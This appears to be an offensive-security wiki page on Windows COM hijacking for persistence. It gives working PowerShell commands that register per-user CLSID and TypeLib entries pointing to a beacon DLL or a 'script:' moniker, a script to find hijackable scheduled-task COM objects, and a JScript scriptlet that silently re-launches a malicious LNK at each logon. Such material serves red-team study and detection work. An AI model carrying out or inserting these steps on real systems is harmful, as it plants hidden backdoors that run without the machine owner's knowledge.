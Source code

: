 # COM Hijacking


### Searching not existent COM components

As the values of HKCU can be modified by the users **COM Hijacking** could be used as a **persistent mechanisms**. Using `procmon` it's easy to find searched COM registries that doesn't exist that an attacker could create to persist. Filters:

- **RegOpenKey** operations.
- where the _Result_ is **NAME NOT FOUND**.
- and the _Path_ ends with **InprocServer32**.

Once you have decided which not existent COM to impersonate execute the following commands. _Be careful if you decide to impersonate a COM that is loaded every few seconds as that could be overkill._

```bash
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\beacon.dll"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```
```
### Hijackable Task Scheduler COM components

Windows Tasks use Custom Triggers to call COM objects and because they're executed through the Task Scheduler, it's easier to predict when they're gonna be triggered.

_# Show COM CLSIDs
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      $usersSid = "S-1-5-32-545"
      $usersGroup = Get-LocalGroup | Where-Object { $_.SID -eq $usersSid }

      if ($Task.Principal.GroupId -eq $usersGroup)
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
}

# Sample Output:
# Task Name:  Example
# Task Path:  \Microsoft\Windows\Example\
# CLSID:  {1936ED8A-BD93-3213-E325-F38D112938E1}
# [more like the previous one...]```

Checking the output you can select one that is going to be executed **every time a user logs in** for example.

Now searching for the CLSID **{1936ED8A-BD93-3213-E325-F38D112938EF}** in **HKEY\CLASSES\ROOT\CLSID** and in HKLM and HKCU, you usually will find that the value doesn't exist in HKCU.

```bash
# Exists in HKCR\CLSID\
Get-ChildItem -Path "Registry::HKCR\CLSID\{1936ED8A-BD93-3213-E325-F38D112938EF}"

Name           Property
----           --------
InprocServer32 (default)      : C:\Windows\system32\some.dll
               ThreadingModel : Both

# Exists in HKLM
Get-Item -Path "HKLM:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" | ft -AutoSize

Name                                   Property
----                                   --------
{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1} (default) : MsCtfMonitor task handler

# Doesn't exist in HKCU
PS C:\> Get-Item -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"
Get-Item : Cannot find path 'HKCU:\Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}' because it does not exist.
```
```
Then, you can just create the HKCU entry and everytime the user logs in, your backdoor will be fired.

---

## COM TypeLib Hijacking (script: moniker persistence)

Type Libraries (TypeLib) define COM interfaces and are loaded via `LoadTypeLib()`. When a COM server is instantiated, the OS may also load the associated TypeLib by consulting registry keys under `HKCR\TypeLib\{LIBID}`. If the TypeLib path is replaced with a **moniker**, e.g. `script:C:\...\evil.sct`, Windows will execute the scriptlet when the TypeLib is resolved – yielding a stealthy persistence that triggers when common components are touched.

This has been observed against the Microsoft Web Browser control (frequently loaded by Internet Explorer, apps embedding WebBrowser, and even `explorer.exe`).

### Steps (PowerShell)

1) Identify the TypeLib (LIBID) used by a high-frequency CLSID. Example CLSID often abused by malware chains: `{EAB22AC0-30C1-11CF-A7EB-0000C05BAE0B}` (Microsoft Web Browser).

```powershell
$clsid = '{EAB22AC0-30C1-11CF-A7EB-0000C05BAE0B}'
$libid = (Get-ItemProperty -Path "Registry::HKCR\\CLSID\\$clsid\\TypeLib").'(default)'
$ver   = (Get-ChildItem "Registry::HKCR\\TypeLib\\$libid" | Select-Object -First 1).PSChildName
"CLSID=$clsid  LIBID=$libid  VER=$ver"
```
```
2) Point the per-user TypeLib path to a local scriptlet using the `script:` moniker (no admin rights required):

```powershell
$dest = 'C:\\ProgramData\\Udate_Srv.sct'
New-Item -Path "HKCU:Software\\Classes\\TypeLib\\$libid\\$ver\\0\\win32" -Force | Out-Null
Set-ItemProperty -Path "HKCU:Software\\Classes\\TypeLib\\$libid\\$ver\\0\\win32" -Name '(default)' -Value "script:$dest"
```
```
3) Drop a minimal JScript `.sct` that relaunches your primary payload (e.g. a `.lnk` used by the initial chain):

```xml
<?xml version="1.0"?>
<scriptlet>
  
  <script language="JScript">
    <![CDATA[
      try {
        var sh = new ActiveXObject('WScript.Shell');
        // Re-launch the malicious LNK for persistence
        var cmd = 'cmd.exe /K set X=1&"C:\\ProgramData\\NDA\\NDA.lnk"';
        sh.Run(cmd, 0, false);
      } catch(e) {}
    ]]>
  </script>
</scriptlet>
```
```
4) Triggering – opening IE, an application that embeds the WebBrowser control, or even routine Explorer activity will load the TypeLib and execute the scriptlet, re-arming your chain on logon/reboot.

Cleanup
```powershell
# Remove the per-user TypeLib hijack
Remove-Item -Recurse -Force "HKCU:Software\\Classes\\TypeLib\\$libid\\$ver" 2>$null
# Delete the dropped scriptlet
Remove-Item -Force 'C:\\ProgramData\\Udate_Srv.sct' 2>$null
```
```
Notes
- You can apply the same logic to other high-frequency COM components; always resolve the real `LIBID` from `HKCR\CLSID\{CLSID}\TypeLib` first.
- On 64-bit systems you may also populate the `win64` subkey for 64-bit consumers.

## References

- [[https://cicada-8.medium.com/hijack-the-typelib-new-com-persistence-technique-32ae1d284661|Hijack the TypeLib – New COM persistence technique (CICADA8)]]
- [[https://research.checkpoint.com/2025/zipline-phishing-campaign/|Check Point Research – ZipLine Campaign: A Sophisticated Phishing Attack Targeting US Companies]]



